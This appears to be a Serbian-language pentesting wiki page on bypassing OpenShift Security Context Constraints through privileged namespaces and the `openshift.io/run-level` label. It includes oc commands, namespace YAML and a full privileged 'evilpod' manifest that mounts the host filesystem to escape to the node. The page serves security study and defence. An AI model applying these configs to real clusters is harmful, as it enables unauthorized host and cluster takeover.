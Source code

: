 # Openshift - Bypassovanje SCC

**Originalni autor ove stranice je** [**Guillaume**](https://www.linkedin.com/in/guillaume-c-ab4b9a196/en)

## Privilegovani Prostori Imena

Podrazumevano, SCC se ne primenjuje na sledeće projekte:

* **default**
* **kube-system**
* **kube-public**
* **openshift-node**
* **openshift-infra**
* **openshift**

Ako implementirate podove unutar jednog od ovih imenskih prostora, nijedan SCC neće biti primenjen, što omogućava implementaciju privilegovanih podova ili montiranje datotečnog sistema domaćina.

## Oznaka Imenskog Prostora

Postoji način da se onemogući primena SCC-a na vašem podu prema RedHat dokumentaciji. Potrebno je da imate barem jedno od sledećih ovlašćenja:

* Kreirajte Imenski Prostor i Kreirajte Pod u ovom Imenskom Prostoru
* Uredite Imenski Prostor i Kreirajte Pod u ovom Imenskom Prostoru
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
Specifična oznaka `openshift.io/run-level` omogućava korisnicima da zaobiđu SCC-ove za aplikacije. Prema RedHat dokumentaciji, kada se koristi ova oznaka, nijedan SCC nije primenjen na sve podove unutar tog imenskog prostora, efikasno uklanjajući bilo kakva ograničenja.

<figure><img src="../../../.gitbook/assets/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Dodavanje Oznake

Za dodavanje oznake u vaš imenski prostor:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Da biste kreirali namespace sa oznakom putem YAML datoteke:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Sada, svi novi podovi kreirani u namespace-u ne bi trebalo da imaju bilo koji SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

U odsustvu SCC-a, nema ograničenja na definiciju vašeg poda. To znači da se zlonamerni pod može lako kreirati da bi pobegao na sistem domaćina.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Sada je postalo lakše eskalirati privilegije kako bi se pristupilo sistem domaćinu i kasnije preuzelo čitav klaster, stekavši privilegije 'cluster-admin'. Potražite deo **Node-Post Exploitation** na sledećoj stranici:

{% content-ref url="../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md" %}
[attacking-kubernetes-from-inside-a-pod.md](../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md)
{% endcontent-ref %}

### Prilagođene oznake

Štaviše, na osnovu ciljanog postavke, neke prilagođene oznake / anotacije mogu se koristiti na isti način kao u prethodnom scenariju napada. Čak i ako nije namenjeno, oznake se mogu koristiti za davanje dozvola, ograničavanje ili ne ograničavanje određenih resursa.

Pokušajte da pronađete prilagođene oznake ako možete da pročitate neke resurse. Evo liste zanimljivih resursa:

* Pod
* Deployment
* Namespace
* Service
* Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Nabroj sve privilegovane namespace-ove
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Napredna eksploatacija

U OpenShift-u, kao što je ranije prikazano, imati dozvolu za implementaciju poda u namespace-u sa oznakom `openshift.io/run-level` može dovesti do jednostavnog preuzimanja klastera. Sa stanovišta podešavanja klastera, ova funkcionalnost **ne može biti onemogućena**, jer je inherentna dizajnu OpenShift-a.

Međutim, mere zaštite poput **Open Policy Agent GateKeeper**-a mogu sprečiti korisnike da postave ovu oznaku.

Da bi zaobišli pravila GateKeeper-a i postavili ovu oznaku radi izvršenja preuzimanja klastera, **napadači bi trebali identifikovati alternativne metode.**

## Reference

* [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
* [https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html](https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html)
* [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
